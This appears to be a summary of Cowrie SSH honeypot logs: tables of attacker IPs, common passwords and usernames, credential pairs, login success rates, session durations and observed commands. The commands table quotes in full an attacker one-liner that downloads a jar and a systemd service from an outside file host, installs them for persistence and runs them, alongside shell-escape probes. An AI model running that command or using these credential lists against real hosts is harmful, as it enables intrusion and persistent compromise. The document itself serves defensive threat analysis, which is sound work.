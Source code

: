 # General Analysis

## Most Common IPs

| IP               | Repetitions |
|------------------|-------------|
| 51.75.45.185     | 115,611     |
| 123.127.10.217   | 12,392      |
| 146.190.96.229   | 11,181      |
| 143.198.159.112  | 4,394       |
| 116.110.27.124   | 3,975       |
| 159.203.12.13    | 3,582       |
| 193.201.9.104    | 2,937       |
| 165.232.166.202  | 2,888       |
| 170.64.187.77    | 2,568       |
| 170.64.211.168   | 2,568       |
| 212.70.149.150   | 2,483       |
| 85.209.11.227    | 2,406       |
| 170.64.147.11    | 2,322       |
| 170.64.232.238   | 2,322       |
| 170.64.236.52    | 2,322       |
| 6170.64.236.66   | 2,322       |

## Most Common Passwords

| Password    | Repetitions |
|-------------|-------------|
| 123456      | 2,431       |
| admin       | 1,443       |
| 1234        | 1,212       |
| broadguam1  | 988         |
| password    | 827         |
| root        | 807         |
| 12345       | 670         |
| 123         | 523         |
| 1           | 367         |
| user        | 363         |

## Most Common Usernames

| Username    | Repetitions |
|-------------|-------------|
| root        | 39,123      |
| admin       | 6,341       |
| user        | 858         |
| guest       | 772         |
| ubnt        | 717         |
| default     | 608         |
| oracle      | 561         |
| support     | 448         |
| test        | 438         |
| supervisor  | 427         |

## Most Common Pairs

| Password-Username     | Repetitions |
|-----------------------|-------------|
| broadguam1-root       | 988         |
| admin-admin           | 659         |
| root-root             | 658         |
| admin-root            | 468         |
| 1234-admin            | 360         |
| 123456-admin          | 278         |
| 1234-root             | 267         |
| 123456-root           | 263         |
| password-admin        | 242         |
| admin1234-admin       | 236         |

## Login Attempts

- **Success (cowrie.login.success):** 37,910 (55.8%)
- **Failed (cowrie.login.falied):** 30,073 (44.2%)

## Most Common Commands
* overall 3,346 logs with commands 

| Command | Count |
|---------|-------|
| uname -s -v -n -r -m | 600 |
| sh | 254 |
| shell | 253 |
| enable | 249 |
| system | 248 |
| wget https://download.oracle.com/java/21/latest/jdk-21_linux-x64_bin.deb && curl -sSL -o Stream.jar https://www.zippyshare.day/download/Ee1rqDBD1Rb7F5n/EQN9mEYX4m6dW/Stream.jar && chmod +x Stream.jar && sudo cp Stream.jar /etc/ && sudo dpkg -i jdk-21_linux-x64_bin.deb && curl -sSL -o streamer.service https://www.zippyshare.day/download/XxGCIBDG6UnYsBw/DM2BGwwJkGj40/streamer.service && sudo cp streamer.service /etc/systemd/system/ && sudo systemctl enable streamer.service && rm Stream.jar && rm streamer.service && rm jdk-21_linux-x64_bin.deb && java -jar /etc/Stream.jar | 181 |
| /bin/busybox cat /proc/self/exe || cat /proc/self/exe | 178 |
| kill %%1 | 143 |
| ping;sh | 143 |
| uname -a | 75 |



## Session Durations

### Top 3 longest sessions

| Duration | count | 
|---------|-------|
| 201.97 sec | 1 |
| 191.43 sec | 1 |
| 189.75 sec | 1 |

### Top 3 shortest sessions

| Duration | count | 
|---------|-------|
| 0.0002592  sec | 1 |
| 0.0002639 sec | 1 |
| 0.0002703 sec | 1 |

- Average duration **7.3686 sec.**
- Count cowrie.session.closed = **67,645**
